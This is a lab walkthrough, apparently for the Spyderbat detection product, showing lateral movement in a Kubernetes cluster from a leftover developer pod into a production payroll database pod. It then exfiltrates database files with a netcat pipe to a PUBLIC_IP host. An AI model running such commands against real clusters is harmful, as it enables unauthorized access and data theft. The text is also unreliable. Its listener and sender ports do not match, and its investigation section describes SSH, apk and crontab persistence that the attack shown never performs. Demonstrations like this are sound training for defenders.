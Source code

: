 # Lateral Movement Within the Cluster

This scenario shows an attacker accessing one portion of a cluster, and using the access in that namespace to move to another and exfiltrate data.

## Running the Exploit

For this scenario, we are going to use some debugging resources left over by Bob, a developer who decided he needed to be able to get direct access to the RSVP app to debug it. Since he forgot to clean up after solving the bugs, there is now an extra pod in the build namespace with some convenient developer tools.

Let's exec into the developer pod to begin.

```sh
kubectl exec -it -n lateral-movement-build bobdev -- /bin/bash
```

Taking a look at the bash history, it looks like Bob used kubectl to get into another namespace:

```sh
history
```
```
    1  ls
    2  kubectl config view
    3  kubectl get pods -A
    4  kubectl get pods -n lateral-movement-prod
    5  kubectl describe pods -n lateral-movement-prod
    6  kubectl exec -n lateral-movement-prod payrolldb-6f7996c855-vrmrt -- hostname
    7  history
```

It looks like the deployment he was accessing is still here:

```sh
kubectl get pods -n lateral-movement-prod
```
```
NAME                         READY   STATUS    RESTARTS   AGE
payrolldb-6cd4447758-2zcq4   1/1     Running   0          3m9s
```

Let's follow in Bob's footsteps.

```sh
kubectl exec -it -n lateral-movement-prod <PODNAME> -- /bin/bash
```

Now, we have ended on a pod in the production namespace, and a database pod on top of that. Taking a look around:

```
root@payrolldb-6cd4447758-2zcq4:/# whoami
root
root@payrolldb-6cd4447758-2zcq4:/# ls
bin  boot  data  dev  docker-entrypoint-initdb.d  etc  home  js-yaml.js  lib  lib32  lib64  libx32  media  mnt	opt  proc  root  run  sbin  srv  sys  tmp  usr	var
root@payrolldb-6cd4447758-2zcq4:/# ls data/
configdb  db
```

It looks like we have full access to the database:

```sh
ls -la data/db
```

From here, we can directly extract the data we want. For example, using netcat: on a different publicly accessible computer (such as the jumpserver set up for the external lateral movement demo), run this command:

```sh
nc -l 1234 > download
```

Then run this in the pod:

```sh
apt update && apt install netcat
cat data/db/collection-0--*.wt | nc PUBLIC_IP 7777
# wait a few seconds, then kill the command with Ctrl-C
```

On the public server, you should now have the collection-0 file in `download`.

## Investigation

[[TODO]]

Now that we have demonstrated lateral movement within the cluster, let's see what this looks like in Spyderbat. This test should trigger two Spydertraces - one for each machine we have accessed. On the Spyderbat Console's Dashboard page, navigate to the Security tab. Under "Recent Spydertraces with a score > 50", there are two new traces: `container_shell` and `root_shell` (or `falco_flag`, if you have the Falco integration installed). Select these two traces and click "Start Process Investigation" to start investigating these two traces together.

In the investigation view, we can now clearly see what happened. On the left side, we accessed the bobdev container, took a look around, and then ran an SSH command to connect to the other, an SSH server. After connecting, `apk` was run, followed by `su` and `crontab`.

![An example graph of this exploit.](./lateral_movement_process_graph.png)

The graph you see may differ a bit from what is shown here. Often, some extra processes end up being linked into the trace due to their proximity. To clean up the trace, you can right-click on unneeded branches of the causal tree and remove them, or shift them left or right to make the sequence easier to read. Once you have a graph that has only the information you are interested in, you can save it and share it with other users in your organization by clicking "Copy Investigation Link" at the top of the graph view.

## Next Steps

With the data gathered in this investigation, we can now prepare a few recovery steps:

- Remove the crontab entry that was added for persistence.
- Remove the SSH server and development container that Bob left.
- Check for any other containers that should not exist in the production environment. Spyderbat's Search feature could help with this - search for Containers where the image matches `*ssh*`, for example.
- Have Bob rotate his SSH keys.
- Revise debugging procedures for the affected applications.


